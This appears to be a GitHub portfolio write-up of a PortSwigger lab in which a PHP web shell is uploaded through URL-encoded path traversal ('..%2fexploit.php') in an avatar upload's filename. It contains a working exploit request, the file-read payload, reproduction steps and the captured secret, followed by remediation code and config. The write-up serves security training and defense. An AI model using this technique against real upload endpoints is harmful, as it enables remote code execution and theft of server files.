


# Web Shell Upload via Path Traversal

> PortSwigger Web Security Academy lab demonstrating how server-side upload restrictions can be bypassed by exploiting path traversal in the `Content-Disposition` filename parameter to achieve remote code execution outside the restricted upload directory.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings / Results](#findings--results)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

File upload functionality is a common attack surface in web applications. When servers restrict script execution within the upload directory but fail to sanitize the filename parameter in multipart form data, attackers can manipulate file placement through path traversal sequences — landing executable files outside the restricted directory and triggering server-side execution.

This lab exercise, sourced from the PortSwigger Web Security Academy file upload vulnerability series, demonstrates a realistic bypass scenario: a server blocks PHP execution in `/files/avatars/` but fails to sanitize URL-encoded traversal sequences in the `Content-Disposition` filename, allowing upload to the parent `/files/` directory where execution is permitted.

The objective was achieved by uploading a PHP web shell to an executable path, then issuing a `GET` request to retrieve the contents of `/home/carlos/secret`.

> **Key Outcome:** Server-side PHP execution achieved outside the designated upload directory via URL-encoded path traversal (`..%2f`) in the `Content-Disposition` filename, resulting in full read access to a sensitive system file.

---

## Scope & Objectives

### Objectives

- Identify weaknesses in the file upload validation and storage logic
- Bypass server restrictions that prevent PHP execution within the upload directory
- Achieve remote code execution by landing a web shell in an executable server path
- Exfiltrate the contents of `/home/carlos/secret` using the deployed web shell

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| PortSwigger Lab Instance | Isolated web application with avatar upload functionality | Web Application |
| `/my-account/avatar` endpoint | Multipart file upload POST handler | Upload Endpoint |
| `/files/avatars/` directory | Designated upload storage directory | Server Filesystem Path |
| `/files/` directory | Parent directory targeted via traversal | Server Filesystem Path |

### Out of Scope

- Any production system or real-world application
- Network-layer attacks, authentication bypass, or session hijacking
- Any component outside the isolated PortSwigger lab environment

### Engagement Type

> **Type:** Gray-box (authenticated user account provided)
> **Authorization:** Sanctioned PortSwigger Web Security Academy lab environment
> **Duration:** Single-session exercise

---

## Methodology

The assessment followed the **OWASP Testing Guide v4.2** (OTG-BUSLOGIC-009 — Test Upload of Malicious Files) and **PTES** phases: intelligence gathering, vulnerability analysis, exploitation, and post-exploitation.

### Phase 1 — Reconnaissance

Logged in with the supplied credentials (`wiener:peter`) and uploaded a legitimate image as the account avatar. Inspected Burp Suite HTTP history to identify the upload endpoint (`POST /my-account/avatar`) and the subsequent fetch endpoint (`GET /files/avatars/<filename>`).

### Phase 2 — Baseline Capability Test

Uploaded `exploit.php` containing a minimal file-read payload directly without any filename manipulation. The server accepted the file but returned its contents as plain text when fetched — confirming PHP execution was blocked within `/files/avatars/`.

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

### Phase 3 — Traversal Bypass Attempt (Unencoded)

Modified the `Content-Disposition` filename in the upload request to include a standard directory traversal sequence:

```
filename="../exploit.php"
```

The server response indicated `The file avatars/exploit.php has been uploaded` — confirming the traversal sequence was being stripped server-side before storage.

### Phase 4 — URL-Encoded Traversal Bypass

Obfuscated the forward slash in the traversal sequence using URL encoding (`/` → `%2f`):

```
filename="..%2fexploit.php"
```

The server response changed to `The file avatars/../exploit.php has been uploaded` — confirming the server URL-decoded the filename after stripping validation, allowing the traversal to survive into the storage path.

### Phase 5 — Web Shell Execution and Exfiltration

Issued a `GET` request to `/files/exploit.php` (the resolved path after traversal). The server executed the PHP file and returned the contents of `/home/carlos/secret` in the response body.

---

## Findings / Results

### Finding F-01: Path Traversal via URL-Encoded Filename in File Upload

| Field | Detail |
|-------|--------|
| **ID** | F-01 |
| **Severity** | [HIGH] |
| **CVSS v3.1 Score** | 8.8 |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') |
| **OWASP Category** | A01:2021 — Broken Access Control |
| **MITRE ATT&CK TTP** | T1190 — Exploit Public-Facing Application; T1059.004 — Command and Scripting Interpreter: Unix Shell |
| **Affected Component** | `POST /my-account/avatar` — `Content-Disposition` filename parameter |

#### Description

The avatar upload endpoint accepts multipart form data and applies a server-side restriction that blocks PHP execution within the `/files/avatars/` directory. The upload handler strips unencoded directory traversal sequences (`../`) from the filename. However, it fails to normalize or validate the filename after URL-decoding, allowing the sequence `..%2f` to survive the strip check and resolve to `../` during filesystem write operations.

This allows an authenticated user to write arbitrary files to the parent `/files/` directory, which does not enforce the same execution restriction.

#### Technical Impact

An attacker with a valid authenticated session can upload a PHP web shell to an executable server path and use it to read arbitrary files on the server, execute system commands, or pivot to further exploitation depending on server configuration and filesystem permissions.

#### Business Impact

Successful exploitation allows an authenticated attacker to read sensitive server-side files, potentially including application secrets, configuration files, or user data. In a production environment, this could result in data exfiltration, credential theft, and full server compromise depending on the web server process permissions.

#### Proof of Concept

Step 1 — Craft the upload request with URL-encoded traversal in the filename:

```http
POST /my-account/avatar HTTP/2
Host: <lab-instance>.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...
Cookie: session=<session-token>

------WebKitFormBoundary...
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary...--
```

Step 2 — Verify traversal succeeded by checking the server response:

```
The file avatars/../exploit.php has been uploaded.
```

Step 3 — Trigger execution by fetching the resolved path:

```http
GET /files/exploit.php HTTP/2
Host: <lab-instance>.web-security-academy.net
Cookie: session=<session-token>
```

Step 4 — Response returns the secret:

```
YIJaSi6robsdAyek9YBcznW4JFEyopEb
```

#### Reproduction Steps

1. Log in as `wiener:peter`
2. Upload any image as the avatar and capture the `POST /my-account/avatar` request in Burp Suite Repeater
3. Modify the `Content-Disposition` header filename to `..%2fexploit.php`
4. Set the file body to `<?php echo file_get_contents('/home/carlos/secret'); ?>`
5. Send the request and confirm the traversal response
6. Send `GET /files/exploit.php` — the PHP output is returned in the response body

#### Retest Criteria

The finding is remediated when:
- Uploading with filename `..%2fexploit.php` results in the file being stored within `/files/avatars/` only, regardless of encoding
- `GET /files/exploit.php` returns a 404 or serves the file as plain text without execution
- The server normalizes the filename prior to all validation checks, not after

---

## Risk Summary

| ID | Title | Severity | CVSS | Component | Priority |
|----|-------|----------|------|-----------|----------|
| F-01 | Path Traversal via URL-Encoded Filename | [HIGH] | 8.8 | Upload Endpoint — filename parameter | [SHORT-TERM] |

---

## Attack Chain

```
[Authenticated Session]
        |
        v
[POST /my-account/avatar]
  filename="..%2fexploit.php"
        |
        v
[Server strips "../" — passes "%2f" variant]
        |
        v
[Server URL-decodes filename during write]
        |
        v
[exploit.php written to /files/ (outside restricted directory)]
        |
        v
[GET /files/exploit.php]
        |
        v
[PHP executed — file_get_contents('/home/carlos/secret') returned]
        |
        v
[Secret exfiltrated]
```

---

## Tools & Environment

| Tool | Version | Purpose |
|------|---------|---------|
| Burp Suite Community Edition | 2026.3.2 | HTTP interception, Repeater, request manipulation |
| Brave Browser | Current | Lab navigation and session management |
| Kali Linux | Rolling | Operating system |
| PHP | N/A (server-side) | Web shell payload language |

### Exploit File

```php
<!-- exploit.php -->
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

---

## Evidence

### Screenshot 1 — Web Shell Execution via GET /files/exploit.php


*Caption: Burp Suite Repeater — GET request to `/files/exploit.php` returns the contents of `/home/carlos/secret`, confirming successful PHP execution outside the restricted upload directory.*

### Screenshot 2 — Lab Solved Confirmation


*Caption: PortSwigger Web Security Academy confirmation — lab marked as Solved after submitting the exfiltrated secret value.*

---

## Remediation

### R-01: Normalize Filenames Before Validation (Addresses F-01)

**Priority:** [SHORT-TERM]

The root cause is that URL decoding occurs after the traversal strip check. The filename must be fully decoded and normalized before any validation logic is applied.

**Specific fix — Python/Django example:**

```python
import os
from urllib.parse import unquote

def sanitize_filename(raw_filename):
    # Step 1: URL-decode all encoding variants
    decoded = unquote(raw_filename)
    # Step 2: Strip all path components — keep basename only
    safe_name = os.path.basename(decoded)
    # Step 3: Reject filenames with executable extensions
    BLOCKED_EXTENSIONS = {'.php', '.php3', '.php4', '.php5', '.phtml', '.exe', '.sh'}
    ext = os.path.splitext(safe_name)[1].lower()
    if ext in BLOCKED_EXTENSIONS:
        raise ValueError(f"File type not permitted: {ext}")
    return safe_name
```

**Additional hardening:**

- Store uploaded files outside the web root where possible, serving them via a controller rather than direct URL access
- Configure the web server to disable script execution for all upload directories regardless of file extension:

```apache
# Apache — disable PHP execution in upload directory
<Directory "/var/www/html/files/avatars">
    php_flag engine off
    Options -ExecCGI
    AddHandler cgi-script .php .php3 .php4 .php5 .phtml .pl .py .sh
</Directory>
```

- Apply the same execution-disable configuration to the parent `/files/` directory
- Implement content-type validation server-side (do not rely on `Content-Type` header from the client — validate file magic bytes using a library such as `python-magic`)
- Rename uploaded files to a randomly generated UUID on the server to eliminate all attacker control over the stored filename

**Retest:** Confirmed remediated when `..%2fexploit.php` and all encoding variants result in the file being stored only within the designated upload directory with execution disabled.

---

## Lessons Learned

### Technical

- Server-side input sanitization must operate on fully decoded and normalized data. Applying a strip check on a raw URL-encoded string before decoding creates a bypass window — the sequence `..%2f` survives the strip and resolves to `../` when the server decodes during filesystem write.
- Directory-level execution restrictions (e.g., Apache `php_flag engine off`) serve as a defense-in-depth control even when upload validation is present. Both layers must be enforced independently.
- `os.path.basename()` is the correct primitive for filename sanitization — not a regex strip of `../`. Regex-based traversal filters are consistently bypassable through encoding variants, double encoding, and null byte injection.

### Procedural

- Baseline capability testing (upload without modification, then observe server behavior) before attempting bypass is an efficient enumeration approach — it confirms which restriction layer is active before crafting targeted payloads.
- Monitoring the exact server response message (`avatars/exploit.php` vs `avatars/../exploit.php`) is a reliable indicator of whether traversal is surviving sanitization.

### Skills Demonstrated

`File Upload Exploitation` · `Path Traversal` · `URL Encoding Bypass` · `Web Shell Deployment` · `Burp Suite Repeater` · `HTTP Request Manipulation` · `OWASP A01 — Broken Access Control` · `MITRE ATT&CK T1190`

---

## References

| Source | Link |
|--------|------|
| PortSwigger — File Upload Vulnerabilities | https://portswigger.net/web-security/file-upload |
| PortSwigger — Path Traversal | https://portswigger.net/web-security/file-path-traversal |
| OWASP — Testing for File Upload (OTG-BUSLOGIC-009) | https://owasp.org/www-project-web-security-testing-guide/ |
| CWE-22: Path Traversal | https://cwe.mitre.org/data/definitions/22.html |
| MITRE ATT&CK T1190 | https://attack.mitre.org/techniques/T1190/ |
| CVSS v3.1 Calculator | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator |

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
